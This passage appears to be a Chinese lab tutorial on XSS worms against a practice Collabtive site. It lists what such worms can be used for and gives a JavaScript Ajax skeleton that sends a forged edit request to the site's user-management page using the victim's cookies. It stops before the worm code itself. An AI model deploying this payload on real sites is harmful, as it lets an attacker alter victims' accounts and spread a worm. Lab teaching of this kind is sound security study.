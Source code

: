 是一种跨站脚本病毒， 通常由脚本语言 Javascript 写成， 它借由网站访问者传播。由于 XSS 蠕虫基于浏览器而不是操作系统, 取决于其依赖网站的规模, 它可以在短时间内达到对巨大数量的计算机感染；

#### XSS 蠕虫的危害

蠕虫可以用来打广告、刷流量、挂马、恶作剧、破坏网上数据、实施 DDoS 攻击等等等。

#### XSS 蠕虫的学习

首先我么需要理解一下 Ajax 框架。框架代码如下：

```
 var Ajax=null;
    // 构建 http 请求的头信息
    Ajax=new XMLHttpRequest();
    Ajax.open("POST","http://www.xsslabcollabtive.com/manageuser.php?action=edit",true);
    Ajax.setRequestHeader("Host","www.xsslabcollabtive.com");
    Ajax.setRequestHeader("Keep-Alive","300");
    Ajax.setRequestHeader("Connection","keep-alive");
    Ajax.setRequestHeader("Cookie",document.cookie);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    // 构建 http 请求内容。 内容的格式可以从浏览器插件 LiveHTTPHeaders 中知道长什么样
    var content="name=...&company=&..."; // 这是你需要填写的内容
    // 发送 http POST 请求。
    Ajax.send(content); 
```

我们创建一个 test.js 的文件；这个文件中是上面的 Ajax 框架：

```
 sudo vim test.js 
```

![图片描述信息](img/userid9094labid882time1429159744204.jpg)

然后我们在创建一个 test1.js 的文件，写一个 xss 蠕虫代码：

```
 sudo vim test1.js 
```

